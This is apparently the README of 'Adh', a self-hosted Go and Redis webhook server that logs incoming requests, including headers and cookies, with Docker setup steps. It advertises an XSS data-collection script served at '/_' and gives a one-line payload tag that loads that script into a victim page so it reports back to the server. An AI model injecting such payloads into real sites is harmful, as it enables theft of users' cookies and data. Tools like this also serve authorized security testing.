

<p align="center">
  
</p>

This project is nothing innovative or groundbreaking.
I just wanted to create my own webhook to deploy on a VPS, avoiding dependencies on tools like webhook.site, localtunnel, ngrok, or other similar services. It is fully customizable, and you can use it for various purposes like logging, request handling, or data collection.

### Overview

The core of this project is a simple webhook server that listens for incoming HTTP requests, logs the relevant information, and stores request data in Redis. It is built with Go for the backend and uses Redis for storage. The project aims to be lightweight, flexible, and simple to set up, but with room for expansion (such as adding a dashboard).


### Features

- **Data Logging**: Logs requests including headers, cookies, body content, and user agent.
- **Redis Integration**: Store incoming request data in Redis, making it easy to scale or manage.
- **Exploit Script**: Serve a simple exploit script for XSS attacks (stealed from xss.report).
- **High customizability**: Customize the server to fit your needs.
- **Search Bar**: Add a search bar for requests with ***RedisSearch syntax***.

### Dashboard

Below are some screenshots of the dashboard:

|  |  |
|-------------------------------------------|-------------------------------------------|
|  |  |


### Installation

To get started with the Adh, follow the steps below:

#### Prerequisites

- A machine exposed to the Internet (this tool is not a tunnelling solution such as ngrok or Localtunnel).
- Docker and Docker Compose installed on your machine.

#### Clone the Repository

```bash
git clone https://github.com/akiidjk/adh.git
cd adh
```

#### Set Up Docker Containers

1. Modify your environment variables in the `.env` file to suit your configuration based on the provided example.

```
PORT=8000
ADDR=0.0.0.0
LOG_LEVEL=info
REDIS_ADDR=redis
REDIS_PORT=6379
REDIS_URL=redis://redis:6379
USER_ID=0
USER_NAME=akiidjk
USER_PASSWORD=akiidjk
SECRET_KEY=polpetta
```

2. Now you can build and start your containers with:

```bash
docker-compose up --build -d
```

#### Access the Webhook

Once the containers are running, you can access your webhook on:

```
http://localhost:8000
```

The server will now be accepting requests on the specified port (8000 by default).

### Configuration

The following environment variables are available for customization:

- **REDIS_ADDR**: Address of the Redis server. Defaults to `localhost` or `redis` if using Docker.
- **REDIS_PORT**: Port for the Redis server. Defaults to `6379`.
- **REDIS_PASS**: Redis password (if needed).
- **LOG_LEVEL**: Log level for the application. Options are `debug`, `info`, `warn`, `error`. Defaults to `info`.
- **REDIS_URL**: URL of the Redis server. Defaults to `redis://localhost:6379`.
- **USER_ID**: User ID for the application. Defaults to `admin`.
- **USER_NAME**: User name for the application. Defaults to `admin`.
- **USER_PASS**: User password for the application. Defaults to `Admin`.
- **SECRET_KEY**: Secret key for the application. Defaults to `secret`.

### Health Check

The Redis health check is handled by a background goroutine that pings Redis periodically to ensure it's available. The health status is reported through a channel, and you can customize the interval as needed.

### Log Storage

The application saves all logs to a folder on your host machine. The logs are stored in the `./adh-webhook/logs` directory on your host system, ensuring that the logs persist even when the container is restarted or destroyed. This is done via Docker bind mounts, which map the `./adh-webhook/logs` folder on your local machine to `/var/log/webhook` in the container.

### Example Request

You can send a test request to the webhook with tools like `curl`:

```bash
curl -X POST http://localhost:8000 -H "Content-Type: application/json" -d '{"key":"value"}'
```

### XSS Script

In the path `/_`, the server returns a JS script which sends a request to the server (to be modified in case it is not localhost:8000) with data in a particular way.

The script is *‘stolen’* from xss.report

A simple payload for get an xss is `<script src="http://localhost:8000/_"></script>`

### To-Do

- [x] **Dashboard**: The current project lacks a UI dashboard to visualize requests and data. This will be added in the future (In progess).
- [x] **Authentication**: Implement an authentication mechanism to restrict access to the webhook dashboard.
- [x] Fix http problem with Docker
- [x] Implement rate limiting to prevent abuse
- [x] Add logout button
- [x] Add search bar for requests
- [x] Add clear button

### Contributing

Contributions are welcome! Feel free to fork the repository, create issues, and submit pull requests.

### License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

---

### Conclusion

The Adh Webhook is a flexible and lightweight solution for managing incoming webhooks with custom logging and Redis storage. It's easily deployable with Docker and offers the flexibility to customize headers, storage, and more.
